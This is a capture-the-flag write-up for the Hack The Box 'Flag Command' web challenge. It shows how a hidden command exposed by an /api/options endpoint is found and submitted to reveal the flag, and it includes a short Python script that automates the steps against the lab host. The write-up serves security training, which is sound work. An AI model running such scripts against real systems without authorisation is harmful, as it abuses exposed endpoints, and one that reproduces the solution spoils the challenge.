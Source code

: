 # Flag Command - HTB Challenge Writeup
## Reconnaissance / Information Gathering
We first receive the Host information: `83.136.255.10:55943`

![image](https://github.com/user-attachments/assets/53a152be-5c0a-4f96-89bd-f4bc7efbc55c)


Putting this in our web browser, we are faced with a website that is telling a story about being in a alien forest. We are prompted to type 'start' to start our adventure:

![image](https://github.com/user-attachments/assets/62294dbc-1a3f-48b3-a588-9aa4ac008721)

Going through the adventure with the available adventure options, we die and have to start again:
![image](https://github.com/user-attachments/assets/15f0d537-80de-459c-8615-7aa3a96ba5fe)

We can view the main script for the game in the source code. Here we can find if the game displays 'HTB{', then we win the game:
![Pasted image 20250502074403](Screenshots/Pasted%20image%2020250502074403.png)

When trying to put in other JavaScript commands, we are told we can't use other commands, and we must choose from the available options (which are displayed using the command 'help'):
![image](https://github.com/user-attachments/assets/eeeb825e-57d4-40bf-a881-794b9be9a769)


We can view the main script for the game in the source code. Here we can find if the game displays 'HTB{', then we win the game:
![image](https://github.com/user-attachments/assets/37d55b62-5241-41a1-a978-39fdcd169813)


When trying to put in other JavaScript commands, we are told we can't use other commands, and we must choose from the available options (which are displayed using the command 'help'):
![image](https://github.com/user-attachments/assets/eeeb825e-57d4-40bf-a881-794b9be9a769)

Exploring different avenues, we can find a GET request being sent to '/api/options' in the Network tab of our developer's tool:
![image](https://github.com/user-attachments/assets/8aebd1df-a675-4341-8e87-d8167b18f7d9)


Going to this destination, we can find all the command options for when we start the game. At the bottom, we see the secret value:
![image](https://github.com/user-attachments/assets/702600ad-1d6c-4e50-98f9-c48ea767117b)

Secret: `Blip-blop, in a pickle with a hiccup! Shmiggity-shmack`

## Exploitation
We can start the game with 'start', then enter the 'secret' value into the command-line to get the flag:
![image](https://github.com/user-attachments/assets/82634a97-1d43-4772-9ac4-5e560e245ee8)


# Automation with Python
We can write the following script to automate the process of retrieving the secret value, starting the game, and importing the secret command and exporting the flag:
```python
import requests

# Set target base URL and start a session
base_url = 'http://83.136.255.10:55943'

# Creat an HTTP session with requests library
session = requests.Session()

# Load the main page (initialize session)
session.get(base_url)

# Fetch available command options
options_url = f"{base_url}/api/options"
response = session.get(options_url)
data = response.json()

# Extract the secret command from the response
secret = data['allPossibleCommands']['secret'][0]
print(f"Secret command: {secret}")

# Prepare and send the secret command to the server
command_url = f"{base_url}/api/monitor"
headers = {
  "Content-Type": "application/json",
  "Origin": base_url,
  "Referer": base_url + "/"
}
payload = {"command": secret}
response = session.post(command_url, json=payload, headers=headers)

# Extract and print the flag from the response
print("[+] Response from server:")
flag = response.text
flag_start = flag.find("HTB{")
flag_end = flag.find("}", flag_start) + 1
flag = flag[flag_start:flag_end]
print(flag)
```
- First we utilize the `requests` library to send HTTP requests in python
- Then we capture the data from `/api/options` and extract the secret
- We then send a request to the receiving endpoint `/api/monitor` with the necessary headers, as well as our JSON payload
- Lastly, we extract the response from the server and filter out the flag to only respond with the value of the flag

Running the script we get the following:
![image](https://github.com/user-attachments/assets/fb692b67-56a1-41e6-bc1d-ac9a74ebdad6)